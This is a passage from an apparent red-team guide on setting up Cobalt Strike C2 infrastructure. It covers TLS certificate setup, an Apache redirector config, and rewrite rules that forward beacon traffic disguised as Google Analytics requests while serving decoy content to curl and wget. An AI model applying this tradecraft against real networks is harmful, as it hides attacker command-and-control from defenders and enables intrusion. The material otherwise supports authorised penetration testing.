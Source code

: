 `scp private.key attacker@[redirector]:/home/attacker/`
`scp public.crt attacker@[redirector]:/home/attacker/`

on redirector,
`sudo cp private.key /etc/ssl/private/`
`sudo cp public.crt /etc/ssl/certs/`

verify certificate by visiting `https://[redirector]`
##### Beacon
on attacker (client),
`openssl req -x509 -nodes -newkey rsa:2048 -keyout localhost.key -out localhost.crt -sha256 -days 365 -subj '/CN=localhost'`
`openssl pkcs12 -inkey localhost.key -in localhost.crt -export -out localhost.pfx`
`keytool -importkeystore -srckeystore localhost.pfx -srcstoretype pkcs12 -destkeystore localhost.store`
`rm localhost.pfx`
`scp localhost.store attacker@[attacker]:/home/attacker/cobaltstrike/`

verify certificate with `curl -v -k https://[attacker]`
#### Apache Configuration
**Note:** The example below assumes the following. Change this as necessary to match use case.
- TLS cert public key is in /etc/ssl/certs/public.crt
- TLS cert private key is in /etc/ssl/private/private.key

`sudo nano /etc/apache2/sites-enabled/default-ssl.conf`
```
SSLCertificateFile /etc/ssl/certs/public.crt
SSLCertificateKeyFile /etc/ssl/private/private.key

SSLProxyEngine on
...
<Directory /var/www/html/>
	Options Indexes FollowSymLinks MultiViews
	AllowOverride All
	Require all granted
</Directory>
```
`sudo systemctl restart apache2`
#### Apache Rules
**Note:** The example below assumes the following. Change this as necessary to match use case.
- using the Cobalt Strike webbug profile
- data is sent via a cookie instead of in URL
- if a file exists on the redirector (in /var/www/html) it should always be returned
- **a**, **b**, **c**, and **d** are files hosted on Cobalt Strike that should be accessible
- /var/www/html/diversion is a file on the redirector that displays fake content for **a**, **b**, **c**, and **d** if they are requested using wget or curl
https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html

on redirector,
`sudo nano /var/www/html/.htaccess`
```
RewriteEngine on

# check beacon GET
RewriteCond %{REQUEST_METHOD} GET [NC]
RewriteCond %{HTTP_COOKIE} SESSIONID
RewriteCond %{REQUEST_URI} __utm.gif
RewriteCond %{QUERY_STRING} utmac=UA-2202604-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US
RewriteRule ^.*$ https://localhost:8443%{REQUEST_URI} [P,L]

# check beacon POST
RewriteCond %{REQUEST_METHOD} POST [NC]
RewriteCond %{REQUEST_URI} ___utm.gif
```